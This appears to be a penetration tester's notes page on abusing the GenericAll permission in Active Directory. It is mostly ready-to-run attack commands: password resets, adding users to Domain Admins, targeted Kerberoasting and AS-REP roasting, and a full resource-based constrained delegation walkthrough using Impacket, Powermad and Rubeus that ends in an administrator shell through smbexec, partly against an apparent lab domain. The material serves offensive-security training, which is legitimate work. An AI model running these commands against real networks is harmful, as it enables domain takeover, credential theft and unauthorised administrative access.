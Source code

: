 # GenericAll Abuse



## Introduction

Active Directory users are defined by securable objects known as ACL/ACE's. Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs). These define what permissions the user has and can or cannot do  (i.e change account name, reset password, etc).&#x20;

<mark style="color:yellow;">**GenericAll is the "God Mode" of the object permissions.**</mark>

Here are some AD object permissions we're interested in.

* **GenericAll** - full rights to the object (add users to a group or reset user's password - <mark style="color:yellow;">God mode</mark>).
* **GenericWrite** - update object's attributes (i.e logon script)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self (Self-Membership)** - ability to add yourself to a group



## Abusing GenericAll

There are three types of objects that can a user can have GenericAll permissions. User, Group, and Computer.

To view ACL/ACE permissions we can use tools like **`PowerView`** and **`Bloodhound`**.



### GenericAll on User

*   **Change password**: You could just change the password of that user with

    ```powershell
    net user <username> <password> /domain
    ```
*   **Targeted Kerberoasting**: You could make the user **kerberoastable** setting an **SPN** on the account, kerberoast it and attempt to crack offline:

    ```powershell
    # Set SPN
    Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
    # Get Hash
    .\Rubeus.exe kerberoast /user:<username> /nowrap
    # Clean SPN
    Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

    # You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
    # to get hashes of one or all the users
    python3 targetedKerberoast.py -domain.local -u <username> -p password -v
    ```
*   **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### GenericAll on Group

We can add a user we control to the vulnerable group.

```powershell
net group "domain admins" <username> /add /domain
```



### GenericAll on Computer

A common attack with generic all on a computer object is to add a fake computer to the domain.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If enumerating and we see a user has GenericAll permission on a computer we know we full control.

We can perform a <mark style="color:yellow;">**Kerberos Resourced Based Constrained Delegation attack**</mark>: computer takover. This attack allows us to impersonate a specific user (Administrator).





## Abusing GenericAll Computer Object Kerberoast Ticket Abuse

###

### Also known as: "Resource Based Constrained Delegation Attack"

We will be following this guide [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

### Toshi's "Impacket" method.

### Add Computer to Domain

We'll first need to add a new machine. We can add a computer to the domain with impacket-addcomputer.

Below are some useful commands.

<pre class="language-powershell"><code class="lang-powershell"><strong># Add a computer to the domain via domain credentials
</strong>impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'

#Add a computer account via hashed credentials
impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
<strong>
</strong><strong># Add a computer account via domain credentials
</strong>impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'

# Modify a computer account password
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -no-add 'DOMAIN\user:password'

# Delete a computer account
impacket-addcomputer -computer-name 'COMPUTER$' -dc-host $DomainController -delete 'DOMAIN\user:password'
</code></pre>

### Toshi's rbcd attack

{% embed url="https://github.com/tothi/rbcd-attack" %}

#### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer (called `evilcomputer`):

```
addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.33.203 ecorp.local/test:ohW9Lie0
```

#### Modifying delegation rights

Implemented the script [rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) found here in the repo which adds the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
./rbcd.py -f EVILCOMPUTER -t WEB -dc-ip 192.168.33.203 ecorp\\test:ohW9Lie0
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example. For help and an example call the script without options.

#### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an S4U2Self query and get an impersonated Service Ticket for the target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/WEB.ecorp.local -impersonate admin -dc-ip 192.168.33.203 ecorp.local/EVILCOMPUTER$:ev1lP@sS
```

The above command fetches a CIFS Service Ticket on behalf of the targetted domain user `admin` and stores it in the file `admin.ccache`.

After adding the file path to the KRB5CCNAME variable the ticket is usable for Kerberos clients.

```
export KRB5CCNAME=`pwd`/admin.ccache
klist
```





### Server Side Method

Here is another way to abuse GenericAll on a computer group

```powershell
# -------- On Server Side
# Upload tools
upload /home/user/Tools/Powermad/Powermad.ps1 pm.ps1
upload /home/user/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe

# Import PowerMad
Import-Module ./pm.ps1

# Set variables
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# With Rubeus, generate the new fake computer object password hashes. 
#  Since we created the computer object with the password 123456 we will need those hashes
#  for the next step.
./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# -------- On Attck Box Side.
# Using getTGT from Impacket, generate a ccached TGT and used KERB5CCNAME pass the ccahe file for the requested service. 
#   If you are getting errors, "cd ~/impacket/", "python3 -m pip install ."
/home/user/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

# Set local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made to the server as the user administrator 
#  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```
